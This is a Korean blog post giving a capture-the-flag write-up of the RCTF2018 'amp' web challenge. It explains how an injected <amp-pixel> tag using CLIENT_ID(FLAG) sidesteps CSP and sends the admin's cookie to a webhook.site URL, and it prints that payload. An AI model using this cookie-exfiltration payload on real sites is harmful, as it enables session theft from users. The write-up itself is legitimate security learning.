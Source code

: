 ```yaml
---
layout: post
title: RCTF2018 amp Write up
excerpt_separator: <!--more-->
tags:
  - Write-up
  - CTF
  - RCTF2018
---
```


2018년 5월 19일부터 5월 21일까지 RCTF가 있었다.  

비록 대회 도중에는 문제를 못풀었지만, 대회 종료 후 amp 문제를 풀게되어 Write-up을 작성하게 되었다.  

<!--more-->

문제 링크에 접속하면 아래와 같은 페이지를 확인할 수 있다.  

![]({{ site.baseurl }}/images/CTF/RCTF2018/amp/amp_01.PNG)  

쿠키를 확인 해 보니, `FLAG` 라는 이름으로 `flag_is_in_admin_cookie` 값이 있었다.  

![]({{ site.baseurl }}/images/CTF/RCTF2018/amp/amp_02.PNG)  

입력 값을 줄 수 있는 곳이 없어 헤메던 중, 메인 페이지에 `HEY INPUT YOUR NAME AFTER QUERYSTRING`이 적혀있는 것을 발견했다.  

`QUERYSTRING`은 `GET` 방식으로 인자를 넘길 때 `index.php?id=aaa`와 같은 형태를 의미한다.  

`NAME`을 입력하라고 했으므로, 문제의 url 뒤에 `name=ccoma`를 입력 해 보았다.  

![]({{ site.baseurl }}/images/CTF/RCTF2018/amp/amp_03.PNG)  

그랬더니 그림과 같이, name 값이 그대로 출력되는 것을 확인할 수 있었다.  

`내가 입력한 값이 그대로 출력` 된다는 점에서 `XSS` 공격을 생각했지만, 분명히 script는 들어가는데 동작하지는 않았다.  

![]({{ site.baseurl }}/images/CTF/RCTF2018/amp/amp_04.PNG)  

`curl -v` 명령어를 통해 확인 해 보니, `CSP(Content Security Policy)`가 걸려 있었다.  

![]({{ site.baseurl }}/images/CTF/RCTF2018/amp/amp_05.PNG)  

실제 CTF 대회 기간에는 이정도밖에 알아내지 못해서 문제를 풀지 못했었다.(흑 ㅠㅠ)  

그래서 대회 종료 후, Write-up이 올라오기만을 기다리다가 ctftime.org에 풀이가 올라온 후 문제를 다시 풀어보았다.  

내가 간과한 점은, 바로 주석이었다.  

페이지 소스를 보면 HTML 주석으로 다음과 같은 글이 있다.  

```
<!-- OK, I don't care AMP Standard -->
<!-- It just wastes my time. -->
```

대회 기간에는 주의깊게 살펴보지 않아 무슨 내용인지 몰랐지만, Write-up을 보고 다시 살펴보니 `AMP 표준에 대해서는 신경쓰지 않는다`는 내용이었다.  

`AMP 표준`은 아래 링크에서 확인할 수 있다.  

[AMP 표준 확인](https://www.ampproject.org/docs/reference/components)

`AMP(Accelerated Mobile Pages)`란, Google에서 시작한 프로젝트로 모바일 전용 빠른 웹 페이지를 의미한다.  

모바일 시장에서 페이지 로딩 속도는 이탈률을 막는 매우 중요한 요소라고 한다.  

그런데 우리가 일반적으로 사용하는 웹 페이지는 모바일에서 성능 저하가 나타나기 때문에 Google에서는 AMP를 만들어 이를 보완하고자 했다.  

하지만 Google은 모바일에서 웹 페이지의 성능을 보장하기 위해 몇 가지 제약 사항을 주었다.  

* CSS는 모두 inline으로 해야하며 50KB를 넘을 수 없다.
* script는 `<script async src="https://cdn.ampproject.org/v0.js"></script>` 처럼 AMP에서 제공하는 것 말고 외부 스크립트는 허용하지 않는다.
* `<amp-img>`, `<amp-video>` 처럼 AMP 전용 태그를 사용해야 한다.

이 외에도 다양한 제약사항이 있지만, 이번에 출제 된 문제를 풀기 위해서는 이정도만 알고 있어도 충분할 것 같다.  

`AMP` 라는 힌트를 얻었으므로, AMP 표준을 둘러보았다.  

내가 문제를 풀기 위해 필요한 것은 `admin의 flag` 이기 때문에, 무언가 쿠키 값을 가져올 수 있는 태그가 필요했다.  

태그를 찾던 중, `<amp-pixel>` 태그를 보게 되었다.  

`<amp-pixel>` 태그는 페이지 뷰를 카운트 할 때 유용한 태그라고 한다.  

`<amp-pixel>` 태그에는 기본적으로 url을 속성으로 주어야 하는데, 만약 해당 코드가 있는 페이지를 누군가 접근한다면, 태그 안에 적혀있는 url로 `GET request`를 전송 해 준다.  

그런데 이 태그의 속성으로 `CLIENT_ID`라는 것을 사용할 수 있다.  

![]({{ site.baseurl }}/images/CTF/RCTF2018/amp/amp_06.PNG)  

`CLIENT_ID`는 사용자를 식별하기 위한 속성으로, `AMP 문서가 Google AMP 캐시를 통해 제공되지 않을 경우에는 쿠키로 대체`된다.  

즉, 쿠키 값에 접근할 수 있다.  

따라서 문제를 풀기 위해 `<amp-pixel>` 태그를 사용하고, url에는 내가 `GET request`를 받아서 확인할 수 있는 주소로 주고, `CLIENT_ID`를 사용 해 쿠키 값을 함께 전송하도록 하면 된다.  

그런데 내가 필요한 것은 나의 쿠키가 아니라 `admin의 쿠키값`이다.  

이를 위해 있는 기능이 `name`을 전송한 뒤에 볼 수 있는 `STOP TRACKING ME` 버튼이다.  

이 버튼을 누를 경우, `We logged your request and contacted admin`이라고 출력된다.  

즉, `admin`이 내가 `name`의 인자로 준 `XSS` 코드를 실행시킬 수 있다.  

이제 필요한 것은, 내가 `GET request`를 확인할 수 있는 링크이다.  

`<amp-pixel>`은 `https`만을 지원하는데, 내 서버에는 `https` 서버가 구축되어 있지 않다.  

python으로 https 서버를 구축 해 봤지만, 제대로된 인증서를 사용하지 않아서인지 응답을 정확히 받아오지 못했다.  

그래서 [https://webhook.site](https://webhook.site/#/) 를 사용했다.  

해당 사이트에서 URL을 받은 후, 문제에서 `name` 옆에 아래와 같이 입력 해 주었다.  

```
<amp-pixel src="https://webhook.site/ee162cc6-d050-482e-89b5-9efd05074455?url=CLIENT_ID(FLAG)"></amp-pixel>
```

![]({{ site.baseurl }}/images/CTF/RCTF2018/amp/amp_07.PNG)  

그 결과 위와 같이 코드가 삽입된 것을 확인할 수 있었다.  

`https://webhook.site`로 돌아가 확인 해 보니 아래와 같이 내가 보낸 요청이 온 것을 확인할 수 있었다.  

![]({{ site.baseurl }}/images/CTF/RCTF2018/amp/amp_08.PNG)  

이에, `STOP TRACKING ME` 버튼을 누른 후, 요청을 다시 확인 해 보았다.  

![]({{ site.baseurl }}/images/CTF/RCTF2018/amp/amp_09.PNG)  

드디어 플래그를 얻을 수 있었다!  

```
FLAG : RCTF{El_PsY_CONGRO0_sg0}
```

Plaid CTF, DEFCON에 이어 RCTF까지 문제 내에 힌트가 있음에도 이를 주의깊게 확인하지 않았던 문제들이 많아 너무 아쉬웠다.  

이번 대회에서는 대회 기간동안에 문제를 풀지 못했지만, 다음 대회에서는 좀 더 주의깊게 확인 해 꼭 대회 기간 내에 문제를 풀어보고 싶다.  
